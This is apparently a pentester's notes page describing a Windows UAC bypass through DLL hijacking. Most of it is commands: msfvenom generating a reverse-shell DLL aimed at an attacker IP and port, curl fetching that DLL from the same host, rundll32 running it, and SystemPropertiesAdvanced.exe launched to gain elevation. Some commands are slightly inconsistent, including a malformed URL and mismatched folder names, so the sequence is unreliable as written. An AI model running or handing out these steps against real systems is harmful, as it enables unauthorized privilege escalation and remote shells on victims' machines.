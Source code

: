 # UAC Bypass

## <mark style="color:yellow;">About</mark>

More about UAC in theory you can read here **\[LINK]**

Here you would be looking more into UAC Bypasses, because every account. even elevated one have two types of tokens, low and high privilege. And sometimes after we got some high-privilege user we need to bypass UAC to actually use high-privilege token. Here I would write about UAC techniques I used during machines or engagements.&#x20;

<mark style="color:orange;">**Very useful is UACME repository**</mark> [**\[LINK\]**](https://github.com/hfiref0x/UACME)

<mark style="color:orange;">**Also this repo is useful**</mark> [**\[LINK\]**](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)

## <mark style="color:blue;">UAC Bypass with DLL Hijacking</mark>

#### Review Path Variable

```powershell
PS C:/> cmd /c echo %PATH%
```

#### Generate Malicious DLL

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=1337 -f dll > srrstr.dll
```

#### Download DLL

```powershell
curl http:/13.13.13.13:1337/srrstr.dll -O "C:\Users\ven17\AppData\Local\Microsoft\Windows Apps\srrstr.dll"
```

#### Execute Malicious DLL on Target

```powershell
rundll32 shell32.dll,Control_RunDLL C:\Users\ven17\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#### Ensure No Existing rundll32 Instances

```powershell
tasklist /svc | findstr "rundll32"
taskkill /PID <PID> /F
```

#### Execute <mark style="color:green;">SystemPropertiesAdvanced.exe</mark> for UAC Bypass

```powershell
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

#### Verify Elevated Privileges

```powershell
whoami /priv
```

